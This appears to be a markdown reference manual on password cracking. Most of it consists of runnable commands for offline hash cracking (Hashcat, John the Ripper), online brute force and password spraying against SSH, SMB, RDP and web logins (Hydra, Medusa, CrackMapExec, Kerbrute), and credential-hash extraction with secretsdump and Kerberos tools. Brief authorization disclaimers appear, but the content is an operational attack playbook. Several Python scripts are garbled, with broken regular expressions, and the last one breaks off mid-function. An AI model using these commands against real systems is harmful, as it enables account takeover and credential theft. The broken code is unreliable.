

# Comprehensive Password Cracking and Brute Force Techniques: An Academic Reference Manual

## Abstract

This comprehensive academic reference presents an exhaustive analysis of password cracking methodologies, brute force techniques, and hash analysis employed in modern cybersecurity operations. We examine primary cracking frameworks, attack vectors, and optimization strategies across multiple platforms, providing detailed implementation examples, performance considerations, and defensive countermeasures. This manual serves as both theoretical foundation and practical implementation guide for cybersecurity researchers and practitioners.

## 1. Introduction

Password cracking constitutes a fundamental technique in cybersecurity for credential recovery, vulnerability assessment, and security research. This methodology enables security professionals to evaluate password strength, recover lost credentials, and assess organizational security posture through systematic analysis of password policies and implementations.

### 1.1 Password Cracking Taxonomy

Password cracking methodologies can be systematically categorized into six primary classes:

1. **Dictionary Attacks**: Systematic testing of common passwords and wordlists
2. **Brute Force Attacks**: Exhaustive enumeration of all possible password combinations
3. **Hybrid Attacks**: Combination of dictionary words with rule-based mutations
4. **Mask Attacks**: Targeted brute force using known password patterns
5. **Rainbow Table Attacks**: Pre-computed hash lookup for rapid password recovery
6. **Rule-Based Attacks**: Intelligent password generation using linguistic patterns

### 1.2 Attack Selection Decision Framework

The following flowchart provides a systematic approach for selecting appropriate cracking methodologies:



## 2. Hashcat: GPU-Accelerated Password Recovery

:::note
The following Hashcat commands assume you have installed Hashcat with proper GPU drivers (CUDA for NVIDIA, OpenCL for AMD). Replace hash files, wordlists, and output paths with those specific to your environment. Ensure you have sufficient GPU memory and cooling for extended operations.
:::

Hashcat represents the most advanced and widely-used password cracking tool, leveraging GPU acceleration for unprecedented cracking speeds across hundreds of hash algorithms.

### 2.1 Basic Hash Cracking Operations

```bash
# Identify hash type
hashcat --help | grep -i "ntlm\|md5\|sha"

# Basic dictionary attack
hashcat -m 0 -a 0 hashes.txt wordlist.txt

# MD5 hash cracking with rockyou
hashcat -m 0 -a 0 md5_hashes.txt /usr/share/wordlists/rockyou.txt

# NTLM hash cracking
hashcat -m 1000 -a 0 ntlm_hashes.txt /usr/share/wordlists/rockyou.txt

# SHA-256 hash cracking
hashcat -m 1400 -a 0 sha256_hashes.txt wordlist.txt

# Multiple wordlists combination
hashcat -m 0 -a 0 hashes.txt wordlist1.txt wordlist2.txt wordlist3.txt

# Show cracked passwords
hashcat -m 0 hashes.txt --show

# Resume interrupted session
hashcat -m 0 hashes.txt --restore
```

### 2.2 Advanced Attack Modes

```bash
# Brute force attack (all combinations)
hashcat -m 0 -a 3 hashes.txt ?a?a?a?a?a?a

# Mask attack with known pattern
hashcat -m 0 -a 3 hashes.txt ?u?l?l?l?l?d?d?d?d

# Custom character set definition
hashcat -m 0 -a 3 hashes.txt -1 ?l?u?d "?1?1?1?1?1?1?1?1"

# Hybrid wordlist + mask attack
hashcat -m 0 -a 6 hashes.txt wordlist.txt ?d?d?d?d

# Hybrid mask + wordlist attack
hashcat -m 0 -a 7 hashes.txt ?d?d?d?d wordlist.txt

# Combination attack (wordlist combinations)
hashcat -m 0 -a 1 hashes.txt wordlist1.txt wordlist2.txt

# Rule-based attack
hashcat -m 0 -a 0 hashes.txt wordlist.txt -r rules/best64.rule

# Multiple rules application
hashcat -m 0 -a 0 hashes.txt wordlist.txt -r rules/best64.rule -r rules/d3ad0ne.rule
```

### 2.3 Performance Optimization

```bash
# Workload tuning for maximum performance
hashcat -m 0 -a 0 hashes.txt wordlist.txt -w 4

# Custom kernel loops
hashcat -m 0 -a 0 hashes.txt wordlist.txt -n 256 -u 1024

# Benchmark specific hash type
hashcat -b -m 1000

# Force GPU utilization
hashcat -m 0 -a 0 hashes.txt wordlist.txt -d 1,2,3

# Temperature monitoring
hashcat -m 0 -a 0 hashes.txt wordlist.txt --hwmon-temp-abort=90

# Status information during cracking
hashcat -m 0 -a 0 hashes.txt wordlist.txt --status --status-timer=60

# Quiet mode for scripting
hashcat -m 0 -a 0 hashes.txt wordlist.txt --quiet

# Debug mode for troubleshooting
hashcat -m 0 -a 0 hashes.txt wordlist.txt --debug-mode=1
```

### 2.4 Specialized Hash Types

```bash
# Windows credential hashes
hashcat -m 1000 ntlm_hashes.txt wordlist.txt          # NTLM
hashcat -m 3000 lm_hashes.txt wordlist.txt            # LM
hashcat -m 5500 netntlmv1_hashes.txt wordlist.txt    # NetNTLMv1
hashcat -m 5600 netntlmv2_hashes.txt wordlist.txt    # NetNTLMv2

# Kerberos hashes
hashcat -m 7500 krb5pa_hashes.txt wordlist.txt       # Kerberos 5 PA-ENC-TIMESTAMP
hashcat -m 13100 krb5tgs_hashes.txt wordlist.txt     # Kerberos 5 TGS-REP
hashcat -m 19600 krb5asrep_hashes.txt wordlist.txt   # Kerberos 5 AS-REP

# Application-specific hashes
hashcat -m 2500 wpa_hashes.txt wordlist.txt          # WPA/WPA2
hashcat -m 22000 wpa3_hashes.txt wordlist.txt        # WPA3
hashcat -m 1800 sha512crypt_hashes.txt wordlist.txt  # SHA512(Unix)
hashcat -m 500 md5crypt_hashes.txt wordlist.txt      # MD5(Unix)

# Database hashes
hashcat -m 12 postgresql_hashes.txt wordlist.txt     # PostgreSQL
hashcat -m 300 mysql_hashes.txt wordlist.txt         # MySQL4.1/MySQL5
hashcat -m 1731 mssql_hashes.txt wordlist.txt        # MSSQL(2012/2014)

# Web application hashes
hashcat -m 400 phpass_hashes.txt wordlist.txt        # WordPress/phpBB3
hashcat -m 3200 bcrypt_hashes.txt wordlist.txt       # bcrypt
hashcat -m 8900 scrypt_hashes.txt wordlist.txt       # scrypt
```

### 2.5 Custom Rules and Masks

```bash
# Create custom rule file
cat > custom.rule << 'EOF'
:
l
u
c
C
t
TlTlTl
$1 $2 $3
$! $@ $#
^1 ^2 ^3
EOF

# Apply custom rules
hashcat -m 0 -a 0 hashes.txt wordlist.txt -r custom.rule

# Custom mask patterns
hashcat -m 0 -a 3 hashes.txt "?u?l?l?l?l?d?d"          # Capital + 4 lower + 2 digits
hashcat -m 0 -a 3 hashes.txt "?d?d?d?d-?d?d-?d?d"      # Date format
hashcat -m 0 -a 3 hashes.txt "?l?l?l?l?l?s"            # 5 letters + special char

# Increment mode for variable length
hashcat -m 0 -a 3 hashes.txt --increment --increment-min=6 --increment-max=10 ?a?a?a?a?a?a?a?a?a?a

# Position-specific masks
hashcat -m 0 -a 3 hashes.txt -1 ?l?u -2 ?d?s "?1?1?1?1?2?2?2"

# Custom character sets
hashcat -m 0 -a 3 hashes.txt -1 "abcdefghijklmnopqrstuvwxyz" -2 "0123456789" "?1?1?1?1?1?2?2?2"
```

## 3. John the Ripper: Versatile Password Cracking

:::note
The following John the Ripper commands assume you have compiled John with all format support or are using the Jumbo community version. Replace password files, wordlists, and session names with those specific to your environment.
:::

John the Ripper provides comprehensive password cracking capabilities with extensive format support and intelligent attack strategies.

### 3.1 Basic Password Cracking Operations

```bash
# Automatic hash format detection and cracking
john passwords.txt

# Specify hash format explicitly
john --format=NT passwords.txt

# Dictionary attack with wordlist
john --wordlist=/usr/share/wordlists/rockyou.txt passwords.txt

# Show cracked passwords
john --show passwords.txt

# Show cracked passwords with format
john --show --format=NT passwords.txt

# List supported formats
john --list=formats

# Test hash format compatibility
john --test

# Resume interrupted session
john --restore

# Resume specific session
john --restore=mysession
```

### 3.2 Advanced Attack Strategies

```bash
# Single crack mode (uses login names)
john --single passwords.txt

# Incremental mode (brute force)
john --incremental passwords.txt

# Incremental with custom charset
john --incremental=Lower passwords.txt

# Wordlist with rules
john --wordlist=wordlist.txt --rules passwords.txt

# Wordlist with specific rule set
john --wordlist=wordlist.txt --rules=Wordlist passwords.txt

# External mode (custom algorithms)
john --external=Filter_Alpha passwords.txt

# Markov mode (statistical attack)
john --markov passwords.txt

# Prince mode (PRINCE algorithm)
john --prince=wordlist.txt passwords.txt

# Loopback mode (use cracked passwords)
john --loopback passwords.txt
```

### 3.3 Format-Specific Operations

```bash
# Unix shadow file cracking
unshadow /etc/passwd /etc/shadow > mypasswd
john mypasswd

# Windows SAM file cracking
samdump2 SYSTEM SAM > sam_hashes.txt
john --format=NT sam_hashes.txt

# ZIP file password cracking
zip2john encrypted.zip > zip_hash.txt
john zip_hash.txt

# RAR file password cracking
rar2john encrypted.rar > rar_hash.txt
john rar_hash.txt

# PDF file password cracking
pdf2john encrypted.pdf > pdf_hash.txt
john pdf_hash.txt

# SSH private key cracking
ssh2john id_rsa > ssh_hash.txt
john ssh_hash.txt

# PGP private key cracking
gpg2john private.key > gpg_hash.txt
john gpg_hash.txt

# Keepass database cracking
keepass2john database.kdbx > keepass_hash.txt
john keepass_hash.txt

# TrueCrypt/VeraCrypt volume cracking
truecrypt2john volume.tc > tc_hash.txt
john tc_hash.txt

# Bitcoin wallet cracking
bitcoin2john wallet.dat > bitcoin_hash.txt
john bitcoin_hash.txt
```

### 3.4 Custom Configuration and Rules

```bash
# Custom john.conf section
cat >> ~/.john/john.conf << 'EOF'
[List.Rules:MyRules]
:
l
u
c
C
t
r
d
f
$1 $2 $3
$! $@ $#
^1 ^2 ^3
^a ^b ^c
EOF

# Apply custom rules
john --wordlist=wordlist.txt --rules=MyRules passwords.txt

# Custom wordlist manipulation
john --wordlist=wordlist.txt --rules=Single passwords.txt

# Generate wordlist from existing passwords
john --wordlist=cracked.txt --stdout --rules > mutated_wordlist.txt

# Custom external filter
cat >> ~/.john/john.conf << 'EOF'
[List.External:Filter_Digits]
void filter()
{
    int i, c;
    i = 0;
    while (c = word[i++])
        if (c >= '0' && c <= '9') return;
    word = 0;
}
EOF

# Apply external filter
john --external=Filter_Digits --wordlist=wordlist.txt passwords.txt
```

### 3.5 Performance and Session Management

```bash
# Fork multiple processes
john --fork=4 passwords.txt

# Set custom session name
john --session=mysession passwords.txt

# Show session status
john --status

# Show specific session status
john --status=mysession

# Node for distributed cracking
john --node=1-4/8 passwords.txt

# Memory-mapped wordlists
john --wordlist=wordlist.txt --mem-file-size=1024 passwords.txt

# Pot file management
john --pot=custom.pot passwords.txt

# Log file specification
john --log-stderr passwords.txt 2> john.log

# Verbose output
john -v passwords.txt

# Maximum run time
john --max-run-time=3600 passwords.txt
```

## 4. Online Attack Tools and Techniques

:::note
All online attack tools should only be used against systems you own or have explicit written authorization to test. Always be mindful of rate limiting, account lockout policies, and detection mechanisms.
:::

### 4.1 Hydra: Network Service Brute Force

```bash
# Basic service brute force
hydra -l admin -p admin target_ip ssh

# User and password lists
hydra -L users.txt -P passwords.txt target_ip ssh

# Single user, multiple passwords
hydra -l admin -P passwords.txt target_ip ssh

# Multiple services
hydra -L users.txt -P passwords.txt target_ip ssh ftp telnet

# HTTP form brute force
hydra -L users.txt -P passwords.txt target_ip http-post-form "/login.php:username=^USER^&password=^PASS^:Login failed"

# HTTPS form brute force
hydra -L users.txt -P passwords.txt target_ip https-post-form "/login:user=^USER^&pass=^PASS^:Invalid"

# SMB brute force
hydra -L users.txt -P passwords.txt target_ip smb

# RDP brute force
hydra -L users.txt -P passwords.txt target_ip rdp

# Database brute force
hydra -L users.txt -P passwords.txt target_ip mysql
hydra -L users.txt -P passwords.txt target_ip postgres
hydra -L users.txt -P passwords.txt target_ip mssql

# Custom port specification
hydra -L users.txt -P passwords.txt -s 2222 target_ip ssh

# Parallel task control
hydra -t 16 -L users.txt -P passwords.txt target_ip ssh

# Verbose output
hydra -v -L users.txt -P passwords.txt target_ip ssh

# Continue on successful login
hydra -c -L users.txt -P passwords.txt target_ip ssh

# Wait time between attempts
hydra -w 30 -L users.txt -P passwords.txt target_ip ssh

# Exit after first valid pair
hydra -f -L users.txt -P passwords.txt target_ip ssh
```

### 4.2 Medusa: Parallel Network Login Brute Force

```bash
# Basic authentication testing
medusa -h target_ip -u admin -p admin -M ssh

# User and password file combination
medusa -H targets.txt -U users.txt -P passwords.txt -M ssh

# Multiple protocols
medusa -h target_ip -U users.txt -P passwords.txt -M ssh -M ftp -M telnet

# HTTP authentication
medusa -h target_ip -u admin -P passwords.txt -M http -m DIR:/admin

# SMB authentication
medusa -h target_ip -U users.txt -P passwords.txt -M smbnt

# Database authentication
medusa -h target_ip -u root -P passwords.txt -M mysql
medusa -h target_ip -u postgres -P passwords.txt -M postgres

# Thread control
medusa -t 20 -h target_ip -U users.txt -P passwords.txt -M ssh

# Verbose logging
medusa -v 6 -h target_ip -U users.txt -P passwords.txt -M ssh

# Resume file
medusa -Z h:u:p -h target_ip -U users.txt -P passwords.txt -M ssh

# Output file
medusa -O medusa_results.txt -h target_ip -U users.txt -P passwords.txt -M ssh

# Continue after success
medusa -C -h target_ip -U users.txt -P passwords.txt -M ssh

# Password delay
medusa -s -h target_ip -U users.txt -P passwords.txt -M ssh
```

### 4.3 CrackMapExec: Active Directory Attack Platform

```bash
# SMB authentication testing
crackmapexec smb target_ip -u users.txt -p passwords.txt

# Password spraying
crackmapexec smb targets.txt -u administrator -p Password123

# Hash spraying
crackmapexec smb targets.txt -u administrator -H ntlm_hash

# Continue on success
crackmapexec smb targets.txt -u users.txt -p passwords.txt --continue-on-success

# Local authentication
crackmapexec smb targets.txt -u users.txt -p passwords.txt --local-auth

# Domain authentication
crackmapexec smb targets.txt -d domain.com -u users.txt -p passwords.txt

# WinRM authentication
crackmapexec winrm targets.txt -u users.txt -p passwords.txt

# SSH authentication
crackmapexec ssh targets.txt -u users.txt -p passwords.txt

# MSSQL authentication
crackmapexec mssql targets.txt -u users.txt -p passwords.txt

# LDAP authentication
crackmapexec ldap target_ip -u users.txt -p passwords.txt

# Output formats
crackmapexec smb targets.txt -u users.txt -p passwords.txt --log cme.log

# Verbose output
crackmapexec smb targets.txt -u users.txt -p passwords.txt -v

# Thread control
crackmapexec smb targets.txt -u users.txt -p passwords.txt -t 100

# Timeout configuration
crackmapexec smb targets.txt -u users.txt -p passwords.txt --timeout 60
```

### 4.4 Kerbrute: Kerberos Username Enumeration and Password Spraying

```bash
# Username enumeration
kerbrute userenum --dc dc.domain.com -d domain.com users.txt

# Password spraying
kerbrute passwordspray --dc dc.domain.com -d domain.com users.txt Password123

# Brute force single user
kerbrute bruteuser --dc dc.domain.com -d domain.com passwords.txt admin

# Brute force user list
kerbrute bruteforce --dc dc.domain.com -d domain.com user_pass_combinations.txt

# Custom port
kerbrute userenum --dc dc.domain.com:88 -d domain.com users.txt

# Verbose output
kerbrute userenum --dc dc.domain.com -d domain.com users.txt -v

# Custom delay
kerbrute passwordspray --dc dc.domain.com -d domain.com users.txt Password123 --delay 100

# Output file
kerbrute userenum --dc dc.domain.com -d domain.com users.txt -o kerbrute_results.txt

# Thread control
kerbrute passwordspray --dc dc.domain.com -d domain.com users.txt Password123 -t 10

# Safe mode (reduce detection)
kerbrute passwordspray --dc dc.domain.com -d domain.com users.txt Password123 --safe
```

## 5. Specialized Password Attack Techniques

:::note
These advanced techniques require careful consideration of target environments and potential impact. Always ensure proper authorization and follow responsible disclosure practices.
:::

### 5.1 Rainbow Table Attacks

```bash
# Generate rainbow tables with rtgen
rtgen md5 loweralpha 1 7 0 3800 33554432 0

# Generate with specific charset
rtgen md5 loweralpha-numeric 1 8 0 3800 33554432 0

# Sort rainbow tables
rtsort *.rt

# Crack hashes with rcrack
rcrack *.rt -h 5d41402abc4b2a76b9719d911017c592

# Crack hash file
rcrack *.rt -f hashes.txt

# Generate tables for specific algorithms
rtgen sha1 mixalpha-numeric 1 8 0 3800 33554432 0
rtgen ntlm mixalpha-numeric-space 1 8 0 3800 33554432 0

# Ophcrack for Windows passwords
ophcrack -g -d /path/to/tables -f sam_file.txt

# Online rainbow table services (academic research only)
# CrackStation, HashKiller, OnlineHashCrack
curl -X POST -F "hash=5d41402abc4b2a76b9719d911017c592" https://crackstation.net/api/
```

### 5.2 Mask Attack Optimization

```bash
# Statistical mask analysis
hashcat --keyspace -a 3 ?a?a?a?a?a?a?a?a

# Progressive mask attacks
for length in $(seq 6 12); do
    mask=$(printf '?a%.0s' $(seq 1 $length))
    hashcat -m 0 -a 3 hashes.txt "$mask"
done

# Custom mask generation based on known patterns
# Corporate password policies: 8 chars, 1 upper, 1 lower, 1 digit, 1 special
hashcat -m 0 -a 3 hashes.txt -1 ?l?u -2 ?d -3 ?s "?1?1?1?1?1?2?2?3"

# Date-based masks
for year in $(seq 2020 2024); do
    hashcat -m 0 -a 3 hashes.txt "password$year"
    hashcat -m 0 -a 3 hashes.txt "Password$year!"
done

# Keyboard pattern masks
hashcat -m 0 -a 3 hashes.txt "qwerty?d?d"
hashcat -m 0 -a 3 hashes.txt "123456?l?l"

# Phone number patterns
hashcat -m 0 -a 3 hashes.txt "?d?d?d-?d?d?d-?d?d?d?d"
hashcat -m 0 -a 3 hashes.txt "(?d?d?d)?d?d?d-?d?d?d?d"
```

### 5.3 Rule-Based Password Generation

```bash
# Advanced John the Ripper rules
cat > advanced.rule << 'EOF'
# Basic transformations
:
l
u
c
C
t

# Append common suffixes
$1 $2 $3
$1 $2 $3 $4
$! $@ $#
$2 $0 $2 $1
$2 $0 $2 $2
$2 $0 $2 $3
$2 $0 $2 $4

# Prepend common prefixes
^1 ^2 ^3
^1 ^2 ^3 ^4
^! ^@ ^#
^2 ^0 ^2 ^1

# Substitutions
sa@ si1 se3 so0 sl1 ss$ sg9
sA@ sI1 sE3 sO0 sL1 sS$ sG9

# Duplications
d
dd

# Reversals
r
fr

# Rotations
Aq"[A-Z]" Az"[a-z]"
EOF

# Apply rules to wordlist
john --wordlist=base_words.txt --rules=advanced --stdout > enhanced_wordlist.txt

# Hashcat rule examples
cat > hashcat_rules.rule << 'EOF'
:
l
u
c
C
t
$1 $2 $3
$!
^1 ^2 ^3
sa@
si1
se3
so0
EOF

# Generate wordlist with Hashcat rules
hashcat --stdout -a 0 base_words.txt -r hashcat_rules.rule > enhanced_hashcat_wordlist.txt
```

### 5.4 Hybrid Attack Methodologies

```bash
# Wordlist + mask combination
hashcat -m 0 -a 6 hashes.txt wordlist.txt ?d?d?d?d

# Mask + wordlist combination
hashcat -m 0 -a 7 hashes.txt ?d?d?d?d wordlist.txt

# Multiple wordlist combination
hashcat -m 0 -a 1 hashes.txt wordlist1.txt wordlist2.txt

# Combinator with rules
hashcat -m 0 -a 1 hashes.txt wordlist1.txt wordlist2.txt -j '$-' -k '$!'

# Prince attack (PRINCE algorithm)
hashcat -m 0 -a 9 hashes.txt wordlist.txt

# Association attack
hashcat -m 0 -a 9 hashes.txt wordlist.txt --association-max=4

# Hybrid with custom separator
echo -e "password\nadmin\ntest" | while read word; do
    hashcat -m 0 -a 6 hashes.txt <(echo "$word") ?d?d?d?d
    hashcat -m 0 -a 6 hashes.txt <(echo "$word") ?d?d?d?d?d?d
done
```

## 6. Password Analysis and Intelligence Gathering

:::note
Intelligence gathering should focus on publicly available information and authorized reconnaissance. Always respect privacy and legal boundaries when collecting password intelligence.
:::

### 6.1 OSINT for Password Intelligence

```bash
# Company-specific intelligence gathering
theHarvester -d target.com -l 500 -b google,bing,linkedin

# Social media password pattern analysis
# Common patterns from breached databases
curl -s "https://haveibeenpwned.com/api/v3/breachedaccount/email@target.com" \
     -H "hibp-api-key: YOUR_API_KEY"

# GitHub credential scanning
truffleHog --regex --entropy=False https://github.com/target-company/repo

# Pastebin monitoring
curl -s "https://psbdmp.ws/api/search/target.com" | jq '.data[].id'

# DNS reconnaissance for password patterns
dnsrecon -d target.com -t std

# Certificate transparency logs
curl -s "https://crt.sh/?q=%.target.com&output=json" | jq '.[].name_value'

# Employee enumeration for username generation
python3 linkedin2username.py -c "Target Company" -n "Target Company"

# Generate usernames from employee names
cat employees.txt | while read first last; do
    echo "${first,,}.${last,,}"
    echo "${first:0:1,,}${last,,}"
    echo "${first,,}${last:0:1,,}"
    echo "${first,,}_${last,,}"
done > usernames.txt
```

### 6.2 Password Policy Analysis

```bash
# Windows password policy enumeration
net accounts /domain

# PowerShell password policy
Get-ADDefaultDomainPasswordPolicy

# Linux password policy analysis
chage -l username
cat /etc/login.defs | grep PASS

# Password complexity analysis script
cat > analyze_policy.py << 'EOF'
#!/usr/bin/env python3
import re
from collections import Counter

def analyze_passwords(password_file):
    with open(password_file, 'r', encoding='utf-8', errors='ignore') as f:
        passwords = [line.strip() for line in f if line.strip()]
    
    # Length analysis
    lengths = [len(p) for p in passwords]
    print(f"Average length: {sum(lengths)/len(lengths):.2f}")
    print(f"Length distribution: {Counter(lengths).most_common(10)}")
    
    # Character set analysis
    upper_count = sum(1 for p in passwords if re.search(r'[A-Z]', p))
    lower_count = sum(1 for p in passwords if re.search(r'[a-z]', p))
    digit_count = sum(1 for p in passwords if re.search(r'\d', p))
    special_count = sum(1 for p in passwords if re.search(r'[!@#$%^&*(),.?":{}|<>]', p))
    
    print(f"Uppercase usage: {upper_count/len(passwords)*100:.1f}%")
    print(f"Lowercase usage: {lower_count/len(passwords)*100:.1f}%")
    print(f"Digit usage: {digit_count/len(passwords)*100:.1f}%")
    print(f"Special char usage: {special_count/len(passwords)*100:.1f}%")
    
    # Common patterns
    patterns = {
        'year': r'(19|20)\d{2}',
        'month': r'(0[1-9]|1[0-2])',
        'exclamation': r'!+,
        'digits_end': r'\d+,
        'common_words': r'(password|admin|user|test|123)',
    }
    
    for pattern_name, pattern in patterns.items():
        count = sum(1 for p in passwords if re.search(pattern, p, re.IGNORECASE))
        print(f"{pattern_name} pattern: {count/len(passwords)*100:.1f}%")

if __name__ == "__main__":
    import sys
    if len(sys.argv) != 2:
        print("Usage: python3 analyze_policy.py <password_file>")
        sys.exit(1)
    analyze_passwords(sys.argv[1])
EOF

python3 analyze_policy.py cracked_passwords.txt
```

### 6.3 Custom Wordlist Generation

```bash
# CeWL - web crawling wordlist generation
cewl -d 3 -m 6 -w custom_wordlist.txt https://target.com

# CeWL with email extraction
cewl -d 2 -e -a -w wordlist_with_emails.txt https://target.com

# Crunch - pattern-based wordlist generation
crunch 8 8 -t @@@@@@%% -o pattern_wordlist.txt

# Crunch with custom charset
crunch 6 10 abcdefghijklmnopqrstuvwxyz0123456789 -o custom_charset.txt

# Mentalist - graphical wordlist generator
# GUI tool for advanced wordlist generation

# CUPP - Common User Passwords Profiler
python3 cupp.py -i

# Password list merger and deduplication
cat wordlist1.txt wordlist2.txt wordlist3.txt | sort -u > merged_wordlist.txt

# Generate based on keyboard patterns
cat > keyboard_patterns.txt << 'EOF'
qwerty
qwertyuiop
asdfgh
asdfghjkl
zxcvbn
zxcvbnm
123456
1234567890
qwerty123
password123
admin123
EOF

# Domain-specific wordlist generation
echo "target.com" | sed 's/\.com//' > base_domain.txt
cat base_domain.txt | while read domain; do
    echo "$domain"
    echo "$domain123"
    echo "$domain2023"
    echo "$domain2024"
    echo "${domain}!"
    echo "${domain}@123"
done > domain_wordlist.txt

# Generate from breach data (authorized analysis only)
cat > breach_analyzer.py << 'EOF'
#!/usr/bin/env python3
import sys
from collections import Counter

def extract_patterns(breach_file, output_file):
    passwords = []
    with open(breach_file, 'r', encoding='utf-8', errors='ignore') as f:
        for line in f:
            if ':' in line:
                password = line.split(':', 1)[1].strip()
                if 6 <= len(password) <= 20:
                    passwords.append(password)
    
    # Get most common passwords
    common_passwords = Counter(passwords).most_common(10000)
    
    with open(output_file, 'w') as f:
        for password, count in common_passwords:
            f.write(f"{password}\n")

if __name__ == "__main__":
    if len(sys.argv) != 3:
        print("Usage: python3 breach_analyzer.py <breach_file> <output_file>")
        sys.exit(1)
    extract_patterns(sys.argv[1], sys.argv[2])
EOF
```

## 7. Advanced Hash Analysis and Manipulation

:::note
Hash analysis requires understanding of cryptographic algorithms and their implementations. Always verify hash formats before attempting to crack them to avoid wasted computational resources.
:::

### 7.1 Hash Identification and Analysis

```bash
# Automated hash identification
hash-identifier
hashid hash_value
hashcat --help | grep -i "mode"

# Python hash identification script
cat > hash_analyzer.py << 'EOF'
#!/usr/bin/env python3
import re
import hashlib
import sys

def identify_hash(hash_value):
    hash_length = len(hash_value)
    hash_patterns = {
        32: ['MD5', 'NTLM'],
        40: ['SHA1'],
        56: ['SHA224'],
        64: ['SHA256'],
        96: ['SHA384'],
        128: ['SHA512'],
        16: ['MySQL 3.x'],
        41: ['MySQL 4.1+'],
    }
    
    # Check for specific patterns
    if re.match(r'^\$1\, hash_value):
        return 'MD5(Unix)'
    elif re.match(r'^\$2[ayb]\, hash_value):
        return 'bcrypt'
    elif re.match(r'^\$5\, hash_value):
        return 'SHA256(Unix)'
    elif re.match(r'^\$6\, hash_value):
        return 'SHA512(Unix)'
    elif re.match(r'^\$P\, hash_value):
        return 'WordPress'
    elif re.match(r'^\$H\, hash_value):
        return 'phpBB3'
    elif ':' in hash_value and len(hash_value.split(':')) == 2:
        return 'Possible salted hash'
    
    return hash_patterns.get(hash_length, ['Unknown'])

def test_hash_format(hash_value):
    try:
        # Test if it's valid hex
        int(hash_value, 16)
        return True
    except ValueError:
        return False

if __name__ == "__main__":
    if len(sys.argv) != 2:
        print("Usage: python3 hash_analyzer.py <hash_value>")
        sys.exit(1)
    
    hash_val = sys.argv[1].strip()
    possible_formats = identify_hash(hash_val)
    print(f"Hash: {hash_val}")
    print(f"Length: {len(hash_val)}")
    print(f"Possible formats: {possible_formats}")
    print(f"Valid hex: {test_hash_format(hash_val)}")
EOF

python3 hash_analyzer.py "5d41402abc4b2a76b9719d911017c592"
```

### 7.2 Hash Extraction and Conversion

```bash
# Windows hash extraction
secretsdump.py domain/user:password@target_ip
secretsdump.py -hashes LM:NT domain/user@target_ip

# Linux shadow file processing
unshadow /etc/passwd /etc/shadow > combined.txt

# Kerberos hash extraction
GetNPUsers.py domain.com/ -usersfile users.txt -format hashcat -outputfile kerberos_hashes.txt
GetUserSPNs.py domain.com/user:password -request -format hashcat -outputfile spn_hashes.txt

# Web application hash extraction
# WordPress wp-config.php
grep -r "DB_PASSWORD" /var/www/html/

# Database hash dumps
mysqldump -u root -p mysql user | grep -E "(User|Password)"
pg_dump -U postgres -t pg_authid database_name

# Hash format conversion
cat > hash_converter.py << 'EOF'
#!/usr/bin/env python3
import sys

def convert_hash_format(input_file, output_format):
    with open(input_file, 'r') as f:
        for line in f:
            line = line.strip()
            if not line:
                continue
                
            if output_format == 'hashcat':
                # Convert to hashcat format
                if ':' in line:
                    user, hash_val = line.split(':', 1)
                    print(hash_val)
                else:
                    print(line)
            elif output_format == 'john':
                # Convert to john format
                if ':' in line:
                    print(line)
                else:
                    print(f"user:{line}")

if __name__ == "__main__":
    if len(sys.argv) != 3:
        print("Usage: python3 hash_converter.py <input_file> <hashcat|john>")
        sys.exit(1)
    convert_hash_format(sys.argv[1], sys.argv[2])
EOF

# Extract NTLM hashes from secretsdump output
grep ":::" secretsdump_output.txt | cut -d: -f4 > ntlm_hashes.txt

# Extract NetNTLMv2 from Responder logs
grep "NTLMv2" Responder-Session.log | cut -d: -f4- > netntlmv2_hashes.txt
```

### 7.3 Salt Analysis and Rainbow Table Defense

```bash
# Salt extraction and analysis
cat > salt_analyzer.py << 'EOF'
#!/usr/bin/env python3
import re
from collections import Counter

def analyze_salts(hash_file):
    salts = []
    with open(hash_file, 'r') as f:
        for line in f:
            line = line.strip()
            # Unix crypt format analysis
            if line.startswith('):
                parts = line.split(')
                if len(parts) >= 3:
                    salt = parts[2] if len(parts) > 2 else ''
                    salts.append(salt)
            # Other salt formats
            elif ':' in line and len(line.split(':')) > 2:
                salt = line.split(':')[1]
                salts.append(salt)
    
    print(f"Total salts found: {len(salts)}")
    print(f"Unique salts: {len(set(salts))}")
    print(f"Salt reuse rate: {(len(salts) - len(set(salts))) / len(salts) * 100:.2f}%")
    
    # Salt length analysis
